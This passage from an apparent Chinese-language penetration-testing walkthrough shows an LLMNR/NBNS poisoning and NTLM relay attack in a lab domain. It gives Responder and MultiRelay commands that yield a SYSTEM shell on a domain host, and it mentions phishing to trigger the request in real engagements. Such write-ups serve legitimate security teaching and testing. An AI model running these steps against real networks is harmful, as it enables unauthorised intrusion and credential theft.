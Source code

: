 Step 2：在 kali(192.168.188.129) 上使用 Responder 开启监听 (这里 responder 的作用就是当访问一个不存在的共享路径，将名称解析降到 LLMNR/NBNS 时来抓取网络中所有的 LLMNR 和 NetBIOS 请求并进行响应)

```bash
responder -I eth0 -w -r -f
```

[![](assets/1701222524-377e2e2761dcd7a4dfc6ce780ab83799.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128143717-92be465a-8db8-1.png)  
Step 3：使用 Responder 的 MultiRelay 模块，指向域内的一台普通主机

```bash
python MultiRelay.py -t 192.168.188.3 -u ALL
```

[![](assets/1701222524-5fdfac8b379523517d6366f415cb142a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128143742-a1a0285a-8db8-1.png)  
Step 5：在域控 server 2012 上建立文件共享请求，kali 即可接收到 192.168.188.3 的 sytem shell(实战中可以通过钓鱼发起请求)  